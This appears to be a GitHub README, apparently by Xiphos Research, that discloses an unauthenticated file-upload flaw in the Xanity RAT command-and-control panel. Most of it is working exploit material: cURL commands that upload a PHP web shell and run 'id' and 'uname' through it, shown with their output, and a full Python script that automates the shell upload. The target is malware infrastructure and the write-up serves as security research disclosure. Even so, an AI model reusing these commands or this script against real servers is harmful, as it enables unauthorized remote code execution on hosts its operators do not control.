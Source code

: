 
Type: File Upload

Author: [Xiphos Research Ltd.](https://github.com/XiphosResearch)

# TorCTPwn

I was having a look at the C&C panel of the [Xanity RAT](https://github.com/alienwithin/xanity-php-rat) for a bit of amusement, and noticed that it suffers an absurdly trivial shell upload vulnerability, outlined below.

See: [upload.php](https://github.com/alienwithin/xanity-php-rat/blob/master/server-files/upload.php) and note we can upload whatever the hell we want to a place with whatever name we want. Trivial shell upload with no auth or anything.

PoC using cURL:
```
$ curl -F name=lol.php -F file=@/tmp/lol.php http://localhost/upload.php?d=lol
1
$ curl http://localhost/lol/lol.php?1=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ curl http://localhost/lol/lol.php?1=uname
Linux
$ 
```

For shits and giggles, there is also an automated exploit for this in this repo.
```
$ python xanity-pwn.py 
use: xanity-pwn.py http://xanity.skids/upload.php /your/shell.php
$ python xanity-pwn.py http://localhost/upload.php /tmp/lol.php 
[+] Shell Uploaded! It should be in: http://localhost/lol/lol.php
$ curl http://localhost/lol/lol.php?1=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```

```
#!/usr/bin/python2
# coding: utf-8
# Xanity RAT C&C Panel Shell Upload Exploit
# Written before coffee happened.
# Author: Darren Martyn
# Licence: WTFPL - wtfpl.net
import requests
import sys
import os

def upload_shell(url, shell):
    up_url = url + "?d=lol" # add "d" param
    try:
        files = {'file': open(shell, "rb")}
        r = requests.post(url=up_url, files=files)
    except:
        sys.exit("[-] failure")
    if "1" in r.text: # the next line is ugly as sin.
        print "[+] Shell Uploaded! It should be in: %s" %(url.replace("upload.php", "lol/%s" %(os.path.basename(shell))))


def main(args):
    if len(args) != 3:
        sys.exit("use: %s http://xanity.skids/upload.php /your/shell.php" %(args[0]))
    upload_shell(url=args[1], shell=args[2])

if __name__ == "__main__":
    main(args=sys.argv)
```
